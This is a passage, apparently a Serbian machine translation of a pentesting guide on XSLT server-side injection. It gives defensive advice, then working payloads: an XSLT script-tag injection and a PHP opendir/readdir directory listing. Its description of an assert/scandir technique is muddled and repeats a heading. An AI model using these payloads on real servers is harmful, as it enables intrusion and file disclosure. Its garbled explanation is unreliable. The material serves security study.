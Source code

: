 Da bi se sprečilo ubacivanje Javascript koda, veb aplikacije treba da primenjuju sledeće sigurnosne mere:

* Pažljivo validirati i filtrirati korisnički unos kako bi se sprečilo ubacivanje zlonamernog koda.
* Koristiti sigurne metode za izvršavanje Javascript koda, kao što su Content Security Policy (CSP) i sandbox okruženja.
* Redovno ažurirati veb aplikaciju i sve biblioteke kako bi se ispravile poznate ranjivosti.
* Edukovati razvojni tim o sigurnosnim praksama i ranjivostima koje mogu dovesti do ubacivanja Javascript koda.

Pravilna primena ovih mera može značajno smanjiti rizik od ubacivanja Javascript koda i zaštititi veb aplikaciju od napada.

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<script>confirm("We're good");</script>
</xsl:template>
</xsl:stylesheet>
```

## Prikazivanje direktorijuma (PHP)

### **Opendir + readdir**

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="php:function('opendir','/path/to/dir')"/>
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
</xsl:template></xsl:stylesheet>
```

### **Assert (var\_dump + scandir + false)**

### **Assert (var\_dump + scandir + false)**

Ova tehnika se koristi za izvršavanje server-side injekcije XSLT-a (Extensible Stylesheet Language Transformations) kroz kombinaciju funkcija `var_dump` i `scandir`. Ova tehnika je korisna kada je ciljani server konfigurisan tako da izvršava XSLT transformacije.

Da biste iskoristili ovu tehniku, prvo koristite funkciju `var_dump` kako biste prikazali sadržaj direktorijuma na ciljanom serveru. Zatim, koristite funkciju `scandir` kako biste dobili listu datoteka i direktorijuma u tom direktorijumu. Konačno, koristite `false` kao argument za `assert` funkciju kako biste izvršili server-side injekciju.
